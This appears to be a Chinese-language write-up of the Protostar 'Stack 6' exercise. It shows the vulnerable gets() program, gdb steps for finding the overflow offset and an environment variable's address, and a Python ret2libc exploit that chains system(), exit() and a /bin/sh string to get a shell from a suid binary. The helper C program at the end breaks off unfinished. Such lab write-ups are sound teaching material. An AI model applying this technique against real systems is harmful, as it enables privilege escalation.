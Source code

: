 # Stack 6

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

void getpath\(\)

{

char buffer\[64\];

unsigned int ret;

printf\("input path please: "\); fflush\(stdout\);

gets\(buffer\);

ret = \_\_builtin\_return\_address\(0\);

if\(\(ret & 0xbf000000\) == 0xbf000000\) {

```
printf\("bzzzt \(%p\)\n", ret\);

\_exit\(1\);
```

}

printf\("got path %s\n", buffer\);

}

int main\(int argc, char \*\*argv\)

{

getpath\(\);

}

## （二）解题过程：

这个是典型的的ROP ，绕过栈保护的一种方法。ret2libc意思是返回到c库。调用system函数执行/bin/sh 然后用exit\(\)退出。最终攻击的payload会是：

填充padding --&gt; system（）地址--&gt;exit\(\)地址----&gt;/bin/sh

1\)判断stack6是否有suid权限

![](/png/26.png)

stack6 有suid权限。

2）首先，调用system后，需要执行/bin/sh.要实现这个，需要两步：

把/bin/sh放到环境变量里 $shell

然后system（）调用该变量。

方法：

export SHELL=/bin/sh

echo $SHELL

要想得到变量$SHELL的地址，需要用到gdb调试器

b main  在main函数下断点。

r   运行

查看环境变量的地址和值

x/s \* \(\(char \*\*\)environ+x\)   x是一个数字，然后就打印出相应的变量地址

![](/png/27.png)

3）知道了变量的地址后，来获取漏洞溢出的偏移位置。

![](/png/28.png)

4）gdb 执行进入输入路径填充

![](/png/29.png)

溢出点出现。

![](/png/30.png)

偏移80的地方。此时查看system\(\)和exit\(\)地址

![](/png/31.png)

5）编写漏洞利用代码exploit.py

```
结构如下：
```

import struct

buff = 'A'\*80

system = struct.pack\("I",0xb7ecffb0\)

exit = struct.pack\("I",0xb7ec60c0\)

shell = struct.pack\("I",0xbfffff82\)

print buff+system+exit+shell

![](/png/32.png)

We have to remember that the address of `SHELL`is not the exact address and we will need to go up or down for a little bit. We will execute the script and redirect the output to a file and name it payload. `python /tmp/stack6.py > /tmp/payload` , Then we will cat the file and pipe the output to `./stack6`

难点在于需要调整SHELL变量的地址。测试了好几次没找到正好地。明天接着试试。

![](/png/33.png)

测试中发现可能是环境变量选择的问题。尝试换一个环境变量执行shell="whoami"

另外环境变量地址的获取方法最好使用程序老获取，gdb获取的不准确，不好调整。

获取环境变量地址的c代码如下：

getaddress.c

\#include &lt;stdio.h&gt;

\#include &lt;stdlib.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*argv\[\]\) {

                char \*ptr;

                if\(argc &lt; 3\) {

                                printf\("Usage: %s &lt;environment variable&gt; &lt;target program name&gt;\n", argv\[0\]\);

                                exit\(0\);

                }

                ptr = getenv\(argv\[1\]\); /\* get env var location \*/

                ptr += \(strlen\(argv\[0\]\) - strlen\(argv\[2\]\)\)\*2; /\* adjust for program name \*/

                printf\("%s will be at %p\n", argv\[1\], ptr\);





ref：

[https://blog.csdn.net/stonesharp/article/details/38402953?utm\_source=blogxgwz4](https://blog.csdn.net/stonesharp/article/details/38402953?utm_source=blogxgwz4)

[https://programlife.net/](https://programlife.net/)

[https://0xrick.github.io/binary-exploitation/bof6/](https://0xrick.github.io/binary-exploitation/bof6/)

[https://www.shellblade.net/posts.html](https://www.shellblade.net/posts.html)

